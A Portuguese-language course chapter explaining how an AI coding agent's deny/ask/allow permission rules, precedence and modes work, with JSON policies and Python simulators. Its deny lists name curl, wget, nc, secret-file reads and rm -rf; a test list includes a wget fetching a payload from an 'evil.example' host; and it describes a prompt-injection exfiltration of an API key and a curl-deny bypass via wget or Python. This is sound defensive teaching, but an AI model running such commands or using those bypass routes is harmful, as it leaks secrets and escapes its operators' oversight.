

# Capítulo 4: O guardião de três portas: Deny, Ask e Allow

## 1. Introdução

No Capítulo 3, você aprendeu a cascata de escopos — quem define cada regra. Mas saber quem define não diz o que acontece na hora da decisão: quando o agente pede para rodar um comando, qual regra vence? Este capítulo abre a porta do guardião de três portas: a camada de permissões que avalia cada solicitação de ferramenta contra as regras `allow`, `deny` e `ask`, e decide o destino em uma ordem estrita.

Você vai aprender a semântica exata de cada porta, a precedência de avaliação (Deny antes de Ask antes de Allow), os formatos de matcher de comando e ferramenta, e os modos de permissão que mudam o comportamento padrão da sessão [4]. Ao final, você será capaz de escrever políticas de permissão que se comportam como você espera — sem o mistério do "funciona aqui mas não ali".

## 2. Explica

### As três portas

A camada de permissões funciona como um guardião físico — imagine um corredor aéreo com três portas em sequência. O agente chega com uma solicitação de ferramenta (um comando, uma edição, uma leitura) e o guardião decide o destino:

- **Deny:** a porta do não absoluto. A solicitação é bloqueada. Se o deny é "nu" (apenas o nome da ferramenta, sem escopo), a ferramenta é removida do contexto do modelo — o agente nem sabe que ela existe. Se é por escopo (ex.: `Bash(rm -rf *)`), a ferramenta existe, mas o comando específico é barrado [4].
- **Ask:** a porta do "vamos conversar". O harness apresenta a solicitação ao humano, que decide aprovar, negar ou aprovar permanentemente ("Yes, don't ask again"). Essa aprovação permanente é gravada no escopo local [3].
- **Allow:** a porta do verde. A solicitação passa sem interação. Um allow "nu" libera a ferramenta inteira; um allow por escopo libera o padrão específico [4].

### A precedência estrita: Deny, Ask, Allow

A ordem de avaliação é a chave de tudo: **primeiro Deny, depois Ask, e por fim Allow**. O primeiro match decide. Isso significa duas propriedades poderosas:

1. **Deny sempre vence:** se qualquer regra de deny casa, a solicitação morre ali — mesmo que exista um allow mais específico depois. O deny não aceita exceções de allowlist.
2. **Ask antes de Allow:** uma solicitação que casa com um `ask` e um `allow` vai para o humano — o padrão de "aprovar comandos de push, mas sempre perguntar" depende dessa ordem.

Essa precedência é a semântica que faltava no Capítulo 3: a cascata diz de onde vem a regra; a precedência diz qual regra vence. Um deny corporativo (escopo managed) e um allow local (escopo do dev) colidem aqui — e a resposta é sempre a mesma: o deny [4].

### Matchers de ferramenta e de comando

A gramática de regras tem dois formatos:

- **Ferramenta nua:** `"Bash"`, `"Edit"`, `"WebFetch"` — libera ou bloqueia a ferramenta inteira.
- **Ferramenta com escopo:** `"Bash(npm run lint)"`, `"Read(./.env)"` — a regra vale para o padrão específico. O padrão entre parênteses aceita curingas, como `Bash(npm run test *)` e `Bash(* --env=prod*)` [4].

A precisão do matcher é o que separa política boa de política inútil: `deny Bash(curl *)` bloqueia todo curl, mas deixa o agente livre para exfiltrar via `wget` ou `python -c "import urllib..."`. Um guardrail de ferramenta sem cobertura de alternativas é uma porta trancada com a janela aberta [8][28].

### Os modos de permissão

Além das regras, existe o comportamento padrão: o `defaultMode` da sessão. Os modos principais [3]:

- `default` (manual): pede confirmação no primeiro uso de cada ferramenta.
- `acceptEdits`: auto-aprova edições e comandos comuns de filesystem no diretório de trabalho.
- `plan`: modo de leitura — bloqueia edições, permite exploração.
- `auto`: auto-aprova com verificações de segurança em background.
- `dontAsk`: auto-nega tudo que não estiver pré-aprovado por allow — o modo "só o que eu disser".
- `bypassPermissions`: pula os prompts — exceto asks explícitos. Deve ser usado apenas em ambientes isolados (containers/VMs).

## 3. Ilustra

Na Torre de Controle, as três portas são os três níveis de liberação de um corredor aéreo. O **deny** é a zona restrita: nenhuma aeronave entra, ponto final — e para certas zonas, os instrumentos de navegação nem mostram a rota (o deny nu remove a ferramenta do contexto, como um setor que nem aparece no radar). O **ask** é o corredor que exige confirmação do controlador a cada entrada: o voo pode entrar, mas alguém com autoridade precisa liberar. O **allow** é o corredor livre, pré-aprovado no plano de voo — o tráfego flui sem interação.

Como Engenheiro de Governança Agêntica, sua arte é desenhar os corredores: amplos o suficiente para o trabalho fluir, estreitos o suficiente para o perigo não entrar. E a ordem estrita — primeiramente a zona restrita, depois a confirmação, depois o corredor livre — é o que torna o desenho previsível.



O diagrama fixa a máquina de decisão: deny primeiro, ask depois, allow por fim, e o defaultMode como última palavra quando nenhuma regra casa. Todo comportamento estranho de permissão que você já viu — "pediu mesmo tendo allow", "bloqueou mesmo tendo allow" — é explicado por este fluxo.

## 4. Técnica

### Escrevendo uma política de permissões completa

Vamos escrever a política de permissões de um time de plataforma que roda agentes para CI. O objetivo: trabalho flui sem fricção nos comandos seguros, comandos de risco exigem humano, e comandos perigosos são impossíveis [4]:

```json
{
  "permissions": {
    "allow": [
      "Bash(ls *)",
      "Bash(cat *)",
      "Bash(git status)",
      "Bash(git diff *)",
      "Bash(git add *)",
      "Bash(git commit *)",
      "Bash(npm run lint)",
      "Bash(npm run test *)",
      "Bash(npm run build)",
      "Read(./docs/**)",
      "Read(./src/**)",
      "Edit(./src/**)",
      "Edit(./test/**)"
    ],
    "ask": [
      "Bash(git push *)",
      "Bash(git merge *)",
      "Bash(npm publish *)",
      "Bash(docker push *)",
      "Edit(./package.json)"
    ],
    "deny": [
      "Bash(curl *)",
      "Bash(wget *)",
      "Bash(nc *)",
      "Read(./.env*)",
      "Read(./secrets/**)",
      "Read(./.git/**)",
      "Bash(* --env=prod*)",
      "Bash(* rm -rf *)",
      "Bash(sudo *)"
    ]
  }
}
```

Observe o padrão: comandos de leitura e testes fluem (allow), comandos que publicam ou empurram pedem humano (ask), e a classe inteira de exfiltração — `curl`, `wget`, `nc` — é negada (deny). A regra `Bash(* rm -rf *)` cobre o padrão em qualquer posição do comando, fechando a janela que um `rm -rf` no meio de um pipe abriria.

### A precedência em teste: o caso do allow específico vs deny amplo

A propriedade mais contraintuitiva — e mais valiosa — é que o deny amplo vence o allow específico. Vamos provar com uma sessão de teste mental. Política: `deny Bash(curl *)` e `allow Bash(curl https://api.minhaempresa.com/status)`. O agente chama `curl https://api.minhaempresa.com/status`. O que acontece?

A resposta é bloqueio. A precedência estrita avalia o deny primeiro, ele casa, e o processo termina ali — o allow nem chega a ser consultado. Se você precisa de uma exceção real, ela tem de ser modelada de outra forma: por exemplo, com um hook PreToolUse que reescreve o comando ou com um matcher de deny mais fino. Tentar "re-permitir" o que foi negado é o erro de arquitetura mais comum em políticas de permissão [4].

### Simulando a decisão em código

A lógica da precedência é pequena o suficiente para ser executada e testada. Aqui está um simulador da máquina de decisão:

```python
#!/usr/bin/env python3
"""Simula a precedencia Deny, Ask, Allow da camada de permissoes."""
import json
import re
import sys


def casa(padrao: str, alvo: str) -> bool:
    """Casa um padrao de regra (com curingas *) contra o alvo literal."""
    regex = re.escape(padrao).replace(r"\*", ".*")
    return re.fullmatch(regex, alvo) is not None


def decidir(regras: dict, ferramenta: str, alvo: str, modo: str) -> str:
    """Retorna allow, ask ou deny para uma solicitacao."""
    # 1. DENY primeiro
    for d in regras.get("deny", []):
        if casa(d, alvo):
            return "deny"
    # 2. ASK antes do ALLOW
    for a in regras.get("ask", []):
        if casa(a, alvo):
            return "ask"
    # 3. ALLOW
    for a in regras.get("allow", []):
        if casa(a, alvo):
            return "allow"
    # 4. defaultMode decide o resto
    return {
        "manual": "ask",
        "acceptEdits": "allow",
        "auto": "allow",
        "dontAsk": "deny",
    }.get(modo, "ask")


def main() -> int:
    config = json.load(open(sys.argv[1], encoding="utf-8"))
    modo = config.get("defaultMode", "default")
    regras = config.get("permissions", {})
    testes = [
        ("Bash(npm run test --watch)", "Bash(npm run test --watch)"),
        ("Bash(curl https://api.externa.example/dados)", "Bash(curl https://api.externa.example/dados)"),
        ("Bash(git push origin main)", "Bash(git push origin main)"),
        ("Bash(npm run build)", "Bash(npm run build)"),
    ]
    for nome, alvo in testes:
        print(f"{alvo:55s} -> {decidir(regras, 'Bash', alvo, modo)}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

Rode com o settings.json do exemplo anterior e confira os resultados: o `npm run test` vira allow, o `curl` vira deny (mesmo sem allow de exceção), o `git push` vira ask, e o build flui. Esse simulador é o seu teste de mesa para qualquer política antes de ir para produção — a auto-validação do guardião.

### Gerenciando permissões em tempo real

A gestão de permissões não é só arquivo — é também interação. O harness oferece dois comandos que você, como Engenheiro de Governança Agêntica, deve conhecer para suportar times [3]:

- `/permissions` (ou `/allowed-tools`): abre a interface interativa que lista todas as regras ativas, mostra de qual arquivo cada uma veio, e permite adicionar/remover regras ao vivo.
- `/config`: abre o painel de configuração em abas, com atalhos como `/config verbose=true`.

E o fluxo de aprovação humana — quando o guardião pede — grava a decisão permanente no escopo local ao escolher "Yes, don't ask again". É assim que a política "cresce" com o uso real, sem exigir edição manual de arquivos [3].

### A linguagem de regras: curingas e padrões que funcionam

A escrita de matchers de permissão é uma linguagem própria, e a precisão dela determina se a política faz o que você espera. Os padrões mais úteis seguem algumas regras simples: o curinga `*` cobre qualquer sequência; o padrão de ferramenta `Bash(...)` restringe ao comando; e a combinação de curingas com literais produz as regras de maior valor — `Bash(npm run test *)`, `Bash(* --env=prod*)`, `Read(./secrets/**)`. O exercício abaixo testa um conjunto de regras contra comandos reais e revela os furos antes de produção [4]:

```python
#!/usr/bin/env python3
"""Testa regras de permissao contra comandos reais."""
import json
import re
import sys

REGRA_DENY = r"Bash\((.*)\)"

REGISTRO_DE_REGRA = {
    "deny": [
        "Bash(curl *)",
        "Bash(wget *)",
        "Bash(* rm -rf *)",
        "Bash(* --env=prod*)",
        "Bash(sudo *)",
    ],
    "ask": [
        "Bash(git push *)",
        "Bash(npm publish *)",
    ],
}


COMANDOS_DE_TESTE = [
    "curl https://api.externa.example/dados",
    "wget https://evil.example/payload.sh",
    "git push origin main",
    "npm publish --tag beta",
    "rm -rf dist && npm run build",
    "python manage.py migrate --env=prod",
    "npm run test -- --watch",
]


def extrai_comando(regra: str) -> str:
    """Extrai o padrao interno de uma regra Bash(...)."""
    casa = re.fullmatch(REGRA_DENY, regra)
    return casa.group(1) if casa else regra


def casa_glob(padrao: str, comando: str) -> bool:
    """Casa um padrao com curinga * contra um comando."""
    regex = re.escape(padrao).replace(r"\*", ".*").replace(r"\?", ".")
    return re.fullmatch(regex, comando) is not None


def classificar(comando: str) -> str:
    """Classifica um comando usando a precedencia Deny -> Ask -> Allow."""
    for regra in REGISTRO_DE_REGRA["deny"]:
        if casa_glob(extrai_comando(regra), comando):
            return "deny"
    for regra in REGISTRO_DE_REGRA["ask"]:
        if casa_glob(extrai_comando(regra), comando):
            return "ask"
    return "allow"


def main() -> int:
    print(f"{"Comando":48s} {"Decisao"}")
    print("-" * 62)
    for comando in COMANDOS_DE_TESTE:
        print(f"{comando:48s} {classificar(comando)}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

Rode e confira: `curl` e `wget` caem no deny; `git push` e `npm publish` caem no ask; o `rm -rf` no meio de um pipe cai no deny (por causa do curinga em qualquer posição); o `--env=prod` cai no deny; e o `npm run test` passa. O teste de regras é a auto-validação da linguagem — e revela furos como um `wget` descoberto depois do deny de `curl` [4].

### A revisão periódica das permissões: a política viva

Permissões não são estáticas: comandos novos entram, comandos antigos saem, e a allowlist cresce sem revisão. O ritual da revisão periódica — mensal no time, trimestral na organização — poda as regras obsoletas e detecta os padrões que viraram risco. O relatório de revisão lista as regras que nunca foram usadas, as que foram usadas demais (candidatas a allow) e as que deveriam ter sido bloqueadas [3][4]:

```python
#!/usr/bin/env python3
"""Relatorio de revisao periodica das regras de permissao."""
import json
import sys


HISTORICO = [
    ("Bash(npm run lint)", 42),
    ("Bash(git status)", 310),
    ("Bash(curl api.github.com)", 3),
    ("Bash(wget https://antigo.example)", 0),
    ("Bash(ssh deploy@host)", 1),
]


def relatorio(historico: list[tuple[str, int]]) -> dict:
    """Classifica regras por uso: obsoletas, suspeitas, saudaveis."""
    obsoletas = [r for r, uso in historico if uso == 0]
    suspeitas = [r for r, uso in historico if 0 < uso <= 5]
    saudaveis = [r for r, uso in historico if uso > 5]
    return {"obsoletas": obsoletas, "suspeitas": suspeitas, "saudaveis": saudaveis}


def main() -> int:
    resultado = relatorio(HISTORICO)
    print("Revisao periodica das permissoes:")
    print(f"  Obsoletas (uso zero, remover): {resultado['obsoletas']}")
    print(f"  Suspeitas (uso baixo, auditar): {resultado['suspeitas']}")
    print(f"  Saudaveis (uso regular, manter): {len(resultado['saudaveis'])} regra(s)")
    print()
    print("Regra de ouro: toda regra de allow que nenhum fluxo usa e")
    print("superficie de ataque gratuita — remova ou documente.")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

A revisão periódica fecha o ciclo da política viva: as regras nascem da necessidade (aprovação permanente), crescem com o uso e morrem na revisão quando ficam obsoletas. Uma política sem revisão é um jardim sem poda — cresce até esconder o que importa [3][4].

### O equilíbrio do guardião: nem porta aberta, nem porta trancada

O guardião de três portas vive no equilíbrio entre dois fracassos simétricos: a porta aberta demais (a política permite o que deveria proteger) e a porta trancada demais (a política bloqueia o que deveria fluir). O primeiro fracasso gera incidentes; o segundo gera contorno — e o contorno, como você viu, é o pior dos dois, porque é a política que existe no papel e não na prática. O equilíbrio é dinâmico: a calibração certa hoje pode ser errada amanhã, quando o time cresce, as ferramentas mudam ou as ameaças evoluem [4][8].

O instrumento do equilíbrio é o ciclo de calibração: medir a fricção (taxa de rejeição, tempo de tarefa), medir os incidentes (bloqueios que falharam), e ajustar a política em ciclos curtos — nunca em big bang. O ajuste é guiado por evidência, não por opinião: a regra que protege sem travar permanece, a que trava sem proteger é revisada, e a que nem protege nem trava é removida. O guardião maduro trata a política como um sistema vivo que respira — e é essa respiração que a mantém relevante [4][8].

### O teste do guardião: três perguntas antes de cada regra

Antes de escrever qualquer regra de permissão, o guardião experiente se faz três perguntas — e a regra só é escrita quando as três têm resposta. A primeira: esta regra protege uma ação com risco real? (se não, a regra é ruído). A segunda: o matcher cobre a família inteira, não só o caso conhecido? (se cobre só o caso, a alternativa esquecida vira a janela). A terceira: a decisão é a certa para o risco — deny para o inegociável, ask para o que merece humano, allow para o que flui? (se a decisão é a errada, a regra trava o time ou abre o sistema) [4].

As três perguntas são o filtro que mantém a política enxuta e precisa — e a política enxuta é a política que o time entende, respeita e não contorna. Uma política inchada de regras sem resposta às três perguntas é pior que a ausência de política: cria a ilusão de proteção, o custo de manutenção e a fricção do fluxo — os três ao mesmo tempo. O teste do guardião, aplicado a cada regra nova e a cada revisão periódica, é o que mantém a camada de permissões como uma ferramenta afiada em vez de um acúmulo de boas intenções [3][4].

### A fricção da permissão: quando a política trava o trabalho

Toda política de permissão cria alguma fricção — o agente tenta, o guardião pergunta, o fluxo pausa. O problema não é a fricção em si; é a fricção mal calibrada. A permissão excessiva produz dois sintomas mensuráveis: a taxa de rejeição de asks cai a quase zero (o aprovador carimba sem ler, porque tudo pede) e o tempo médio de tarefa infla (cada ação atravessa uma fila de perguntas). Quando os dois aparecem, a política está paralisando o time — e a paralisia leva ao contorno, que é o pior resultado possível [4][16].

A calibração da fricção segue o princípio da análise de valor: cada ask deve valer o tempo que custa. Um ask sobre `git push` em produção vale segundos de um humano; um ask sobre `npm run lint` não vale nada — deveria ser allow. O exercício de calibração é simples: classificar cada ask existente em três baldes — ações de alto impacto (manter ask), ações de rotina (mover para allow) e ações que nunca acontecem (remover). O mesmo exercício vale para os allows: comandos que ninguém usa são superfície sem benefício. A calibração periódica da fricção é a contraparte humana da revisão periódica de permissões: a política não é estática, e a fricção é o sinal de que ela precisa respirar [4][16].

### A leitura da política: o vocabulário do guardião

A camada de permissões tem um vocabulário próprio, e dominá-lo é o que permite ler qualquer settings.json do mercado sem susto. O guardião fala em matchers (a expressão que casa a solicitação), escopos (o alvo restrito do matcher), modos (o comportamento padrão da sessão) e precedência (a ordem de avaliação). Cada termo tem um papel no fluxo que você desenhou na seção Ilustra, e a fluência no vocabulário é o que separa quem configura de quem governa [3][4].

A leitura prática de um settings.json alheio segue um roteiro de quatro perguntas: qual é o modo padrão da sessão? (a postura de fundo — manual, acceptEdits, dontAsk); quais ferramentas estão negadas e com que escopo? (o limite absoluto); quais ações pedem humano? (o ponto de decisão); e quais comandos fluem sem interação? (a produtividade). As quatro respostas contam a história da política inteira: a postura, os limites, as decisões e o fluxo. O guardião que lê um settings.json com esse roteiro entende a organização em minutos — e entende o que ela valoriza em segundos [4].

### A semântica fina do deny nu vs deny por escopo

Uma das distinções mais mal compreendidas da camada de permissões é a diferença entre negar a ferramenta inteira e negar um escopo. `deny Bash` (nu) remove a ferramenta do contexto do modelo — o agente nem sabe que `Bash` existe, e portanto não tenta usá-la. `deny Bash(rm -rf *)` (por escopo) mantém a ferramenta visível e utilizável, mas bloqueia o comando específico na tentativa [4]. A escolha entre os dois é uma decisão de usabilidade versus segurança:

- **Deny nu** é o mais forte e o mais cego: o agente não consegue contornar o que não conhece, mas também não consegue executar nenhum comando — se a ferramenta inteira for negada, o trabalho baseado em shell morre.
- **Deny por escopo** é cirúrgico: a ferramenta segue viva para os comandos permitidos, e apenas o padrão perigoso é barrado. O custo é a cobertura: você precisa listar os padrões, e a lista é o ponto cego.

O padrão maduro combina os dois: ferramentas de rede inteiras negadas nuas (`deny WebFetch` quando o agente não precisa delas) e comandos específicos negados por escopo dentro das ferramentas necessárias. A regra de bolso: se o agente não precisa da ferramenta, negue nua; se precisa, negue o escopo perigoso e permita o resto [4][8].

### O ciclo de vida da aprovação: da primeira vez à regra permanente

A aprovação humana não é um evento único — é um ciclo. A primeira vez que o agente tenta um comando, o harness pede; o humano escolhe "Yes, don't ask again"; e a regra vira permanente no escopo local. Entender esse ciclo é essencial para governar a taxa de aprovação: cada "don't ask again" é uma regra nova, e um time que aprova por inércia cria uma allowlist inchada que contradiz o deny-by-default [3].

```python
#!/usr/bin/env python3
"""Simula o ciclo de vida de uma aprovacao e sua persistencia local."""
import json
import sys
from pathlib import Path


class Aprovador:
    """Gerencia a aprovacao de comandos e a persistencia no escopo local."""

    def __init__(self, arquivo_local: str = ".claude/settings.local.json") -> None:
        self.arquivo_local = Path(arquivo_local)
        self.regras: dict[str, list[str]] = {"permissions": {"allow": []}}
        self._carregar()

    def _carregar(self) -> None:
        if self.arquivo_local.exists():
            try:
                dados = json.loads(self.arquivo_local.read_text(encoding="utf-8"))
                self.regras = dados
            except json.JSONDecodeError:
                pass

    def aprovar_permanente(self, comando: str) -> None:
        """Grava a regra de allow no escopo local (simulacao)."""
        allow = self.regras.setdefault("permissions", {}).setdefault("allow", [])
        regra = f"Bash({comando})"
        if regra not in allow:
            allow.append(regra)
        self.regras["permissions"]["allow"] = allow
        # Em producao: gravar no arquivo real e verificar o gitignore.

    def listar(self) -> list[str]:
        return self.regras.get("permissions", {}).get("allow", [])


def main() -> int:
    aprovador = Aprovador()
    aprovador.aprovar_permanente("npm run lint")
    aprovador.aprovar_permanente("git status")
    print("Regras permanentes no escopo local:")
    for regra in aprovador.listar():
        print(f"  {regra}")
    print("\nLembrete: verifique com 'git check-ignore .claude/settings.local.json'")
    print("que o arquivo nao foi versionado.")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

O ciclo tem dois pontos de governança: o momento da aprovação (educar o humano a não aprovar por inércia) e a revisão periódica das regras acumuladas (podar a allowlist inchada). A revisão mensal das regras locais é a higiene da camada de permissão — sem ela, o deny-by-default morre de mil aprovações bem-intencionadas [3][4].

### O padrão de ask eficaz: reduzindo o cansaço do aprovador

Aprovação demais gera aprovação por inércia — o aprovador clica "sim" sem ler, e o HITL vira teatro. O design de asks eficazes segue quatro regras: pedir só o que é de fato arriscado, dar contexto da ação, agrupar decisões correlatas e nunca pedir o que uma regra pode resolver. O checklist abaixo transforma um fluxo de ask caótico em um fluxo legível [4][16]:

```python
#!/usr/bin/env python3
"""Checklist de qualidade do fluxo de ask da camada de permissoes."""
import sys


CHECKS = [
    "Cada ask cobre acao com risco real (push, publish, drop, prod)?",
    "Comandos rotineiros e seguros estao em allow, nao em ask?",
    "O aprovador recebe o comando completo e o contexto da acao?",
    "Decisoes correlatas sao agrupadas em um unico ask?",
    "Nenhum ask depende de regra que poderia ser resolvida por allow?",
    "A taxa de aprovacao por inercia e monitorada e corrigida?",
]


def main() -> int:
    print("Checklist do fluxo de ask:")
    respostas = ["sim", "sim", "nao", "sim", "nao", "nao"]
    falhas = 0
    for pergunta, resposta in zip(CHECKS, respostas):
        status = "OK " if resposta == "sim" else "FIX"
        falhas += 0 if resposta == "sim" else 1
        print(f"  [{status}] {pergunta}")
    print()
    if falhas:
        print(f"{falhas} ponto(s) a corrigir para um fluxo de ask sao e eficaz.")
    return 1 if falhas else 0


if __name__ == "__main__":
    sys.exit(main())
```

A métrica que sustenta o padrão é a taxa de rejeição dos asks: se 99% dos asks são aprovados em segundos, o processo está quebrado — o aprovador não está avaliando, está carimbando. Um fluxo saudável tem taxa de rejeição não desprezível, porque isso significa que o humano está de fato decidindo [16][17].

### Tabela: modos de permissão e quando usar

| Modo | Comportamento | Uso recomendado |
|---|---|---|
| default | Pergunta no 1º uso | Desenvolvimento individual |
| acceptEdits | Auto-aprova edições e filesystem | Trabalho com agente no projeto |
| plan | Só leitura, bloqueia edições | Exploração e análise |
| auto | Auto-aprova com checks em background | CI confiável |
| dontAsk | Auto-nega sem allow explícito | Ambientes de alto risco |
| bypassPermissions | Pula prompts (exceto ask) | Apenas container/VM isolado |

## 5. Aplica

### Cena de contraste: o allow "seguro" que virou vetor de exfiltração

Você herda a política de permissões de um time que sofreu um incidente: um agente de suporte vazou uma chave de API para um endpoint externo. A política anterior tinha `deny Bash(curl api.externa.example)` — apenas esse domínio — e `allow Bash(curl *)`. Quando você pergunta por que, a resposta é: "o agente precisa baixar dependências de vários domínios, então liberamos curl". O atacante (ou um prompt injection) usou exatamente essa abertura: o deny de um domínio é inútil quando o allow é a regra ampla e o deny é a exceção estreita — porque a precedência avalia o deny primeiro, sim, mas o deny não casa com outros domínios, e o allow amplo os libera todos.

O diagnóstico: a política inverteu a semântica. A regra correta é deny-by-default: `deny Bash(curl *)` como base e o allow vira a exceção — mas a precedência não permite exceção ao deny. A correção real é trocar o meio: em vez de listas de permissão para rede, usar o sandbox de rede (allowlist de domínios no escopo managed) e bloquear a ferramenta de rede inteira no deny [5]. O mesmo objetivo — o agente baixar dependências — é alcançado sem abrir a janela: as dependências vêm de um proxy aprovado, e o resto é zona restrita.

### A interação permissão × hook: a defesa combinada

A camada de permissões e a camada de hooks não são rivais — são complementares, e a interação entre elas é onde a defesa em profundidade ganha força. O padrão de uso combinado: a permissão define o corredor (o que pode acontecer), e o hook adiciona o julgamento situacional (o que deve acontecer neste caso). Um comando pode passar pela permissão (allow por padrão) e ainda ser bloqueado pelo hook (porque o contexto específico é perigoso). O quadro abaixo mostra a matriz de interação [2][4]:

```python
#!/usr/bin/env python3
"""Matriz de interacao permissao x hook para o mesmo comando."""
import json
import sys

CASOS = [
    {"comando": "npm run test", "permissao": "allow", "hook": "permitir", "resultado": "executa"},
    {"comando": "git push --force", "permissao": "allow", "hook": "ask", "resultado": "pede humano"},
    {"comando": "curl api.externa.example", "permissao": "deny", "hook": "permitir", "resultado": "bloqueado pela permissao"},
    {"comando": "npm install --registry externo", "permissao": "allow", "hook": "reescrever", "resultado": "executa reescrito"},
]


def main() -> int:
    print(f"{"Comando":38s} {"Permissao":10s} {"Hook":12s} {"Resultado"}")
    print("-" * 92)
    for caso in CASOS:
        print(f"{caso['comando']:38s} {caso['permissao']:10s} {caso['hook']:12s} {caso['resultado']}")
    print()
    print("Licao: a permissao vence quando nega; o hook refina quando a")
    print("permissao permite. Combinados, cobrem o estatico e o situacional.")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

A leitura da matriz: quando a permissão nega, o hook não tem como reverter — o deny é absoluto (Capítulo 4). Mas quando a permissão permite, o hook ainda pode elevar para ask ou reescrever o comando — o refinamento situacional que a configuração estática não alcança. É essa combinação que faz o guardião de três portas e o PreToolUse trabalharem como um sistema único [2][4].

### A linguagem da política: comunicando permissões ao time

A camada de permissões só funciona se o time a entende — e a linguagem da política é uma disciplina própria. O erro clássico de comunicação é descrever permissões em termos de intenção ("não deixamos o agente acessar coisas sensíveis") quando a política real é feita de matchers e escopos ("Read(./.env) e Read(./secrets/**) estão em deny"). O descompasso entre a descrição e a regra é onde nascem os mal-entendidos: o desenvolvedor acha que algo está protegido porque a conversa disse que estaria [4].

A prática madura documenta a política na mesma linguagem em que ela é executada: cada regra documentada com o matcher exato, o escopo e o exemplo de comando afetado. O checklist de comunicação da política tem quatro itens: a regra é expressa em matcher executável? O exemplo de comando afetado está claro? A exceção (se houver) está documentada? O dono da regra está nomeado? Quando os quatro itens passam, a política sobrevive à saída de quem a escreveu — e é isso que a torna organizacional em vez de pessoal [3][4].

A outra metade da comunicação é o fluxo reverso: as perguntas do time sobre permissões — "por que isso foi bloqueado?", "como eu libero X?" — precisam de um canal de resposta. O canal pode ser o repositório de políticas com issues, o canal de suporte do time ou a revisão periódica do Capítulo 4. O ponto é que a política sem canal de resposta vira autoridade inacessível — e autoridade inacessível gera contorno, que é exatamente o que o guardião de três portas existe para impedir.

### Armadilhas comuns

- **Allow amplo + deny estreito:** a inversão clássica; o deny estreito quase nunca casa.
- **Esquecer os equivalentes:** deny curl sem deny wget/nc é janela aberta.
- **Confundir ordem:** tentar "exceção ao deny" com um allow — a precedência não permite.
- **bypassPermissions em máquina de dev:** abre o sistema inteiro para qualquer comando; só em container.

## 6. Conclusão

Você abriu as três portas: Deny, Ask e Allow, na ordem estrita em que o guardião decide — e aprendeu que o deny vence sempre, que o ask vem antes do allow, e que o defaultMode é a última palavra. Escreveu uma política completa para CI, provou a precedência com um simulador em código, e diagnosticou a inversão allow/deny que está por trás de boa parte dos incidentes reais com agentes.

Desafio: escreva a política do seu próprio projeto e rode o simulador com cinco comandos reais do seu fluxo de trabalho — dois que devem passar, dois que devem pedir humano e um que deve ser bloqueado. No Capítulo 5, você cruza da autorização para a interceptação: a gramática dos hooks — matchers e handlers — que transforma sua política em código que roda no exato momento da tentativa.

## 7. Referências Bibliográficas

[1] ANTHROPIC. *Hooks Guide*. Disponível em: https://code.claude.com/docs/en/hooks-guide. Acesso em: 06 ago. 2026.
[2] ANTHROPIC. *Hooks Reference*. Disponível em: https://code.claude.com/docs/en/hooks. Acesso em: 06 ago. 2026.
[3] ANTHROPIC. *Settings Reference*. Disponível em: https://code.claude.com/docs/en/settings. Acesso em: 06 ago. 2026.
[4] ANTHROPIC. *Configure Permissions*. Disponível em: https://code.claude.com/docs/en/permissions. Acesso em: 06 ago. 2026.
[5] ANTHROPIC. *Enterprise Admin Setup*. Disponível em: https://code.claude.com/docs/en/admin-setup. Acesso em: 06 ago. 2026.
[6] ANTHROPIC. *Access Audit Logs*. Disponível em: https://support.claude.com/en/articles/9970975-access-audit-logs. Acesso em: 06 ago. 2026.
[7] OWASP. *Top 10 for LLM Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[8] OWASP. *Top 10 for Agentic Applications*. Disponível em: https://genai.owasp.org/. Acesso em: 06 ago. 2026.
[9] MITRE. *ATLAS — Adversarial Threat Landscape for Artificial-Intelligence Systems*. Disponível em: https://atlas.mitre.org/. Acesso em: 06 ago. 2026.
[10] CLOUD SECURITY ALLIANCE. *MAESTRO & Agentic Threat Research*. Disponível em: https://labs.cloudsecurityalliance.org/agentic/csa-research-note-atlas-agentic-gap-analysis-20260327/. Acesso em: 06 ago. 2026.
[11] CLOUD SECURITY ALLIANCE. *Security Guidance for Critical Areas of Focus in Cloud Computing*. Disponível em: https://cloudsecurityalliance.org/. Acesso em: 06 ago. 2026.
[12] NIST. *AI Risk Management Framework (AI RMF 1.0)*. Disponível em: https://www.nist.gov/itl/ai-risk-management-framework. Acesso em: 06 ago. 2026.
[13] ISO. *ISO/IEC 42001:2023 — Information technology — Artificial intelligence — Management system*. Disponível em: https://www.iso.org/standard/81230.html. Acesso em: 06 ago. 2026.
[14] EUROPEAN UNION. *Regulation (EU) 2024/1689 (EU AI Act)*. Disponível em: https://eur-lex.europa.eu/eli/reg/2024/1689/oj. Acesso em: 06 ago. 2026.
[15] CYCODE. *OWASP Top 10 for Agentic Applications 2026 Explained*. Disponível em: https://cycode.com/blog/owasp-top-10-agentic-applications/. Acesso em: 06 ago. 2026.
